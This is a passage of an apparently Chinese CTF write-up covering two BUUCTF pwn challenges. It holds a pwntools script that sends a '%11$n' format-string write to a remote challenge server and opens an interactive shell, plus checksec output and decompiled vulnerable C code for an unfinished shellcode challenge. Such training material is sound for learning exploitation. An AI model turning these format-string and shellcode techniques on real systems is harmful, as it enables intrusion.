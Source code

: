 

## 0x1A.jarvisoj_fm

格式化字符串。是第11个。

p32(x_addr) + "%11$n" 意思是将x_addr写入11的位置。

```python
from pwn import *
context(log_level='debug')
#io = process("./fm")
io = remote("node3.buuoj.cn",26157)
x_addr = 0x0804A02C
payload = p32(x_addr) + "%11$n"
io.sendline(payload)
io.interactive()
```



## 0x1B.ez_pz_hackover_2016（未完成）

写shellcode

本题的重点是动态调试找偏移，也是fmt的题。

可用\x00终止cmp的比较。



```
gwt@ubuntu:~/Desktop$ checksec ez_pz_hackover_2016 
[*] '/home/gwt/Desktop/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

```c
int chall()
{
  size_t v0; // eax
  int result; // eax
  char s[1024]; // [esp+Ch] [ebp-40Ch] BYREF
  _BYTE *v3; // [esp+40Ch] [ebp-Ch]

  printf("Yippie, lets crash: %p\n", s);
  printf("Whats your name?\n");
  printf("> ");
  fgets(s, 1023, stdin);
  v0 = strlen(s);
  v3 = memchr(s, 10, v0);
  if ( v3 )
    *v3 = 0;
  printf("\nWelcome %s!\n", s);
  result = strcmp(s, "crashme");
  if ( !result )
    result = vuln((char)s, 0x400u);
  return result;
}
```
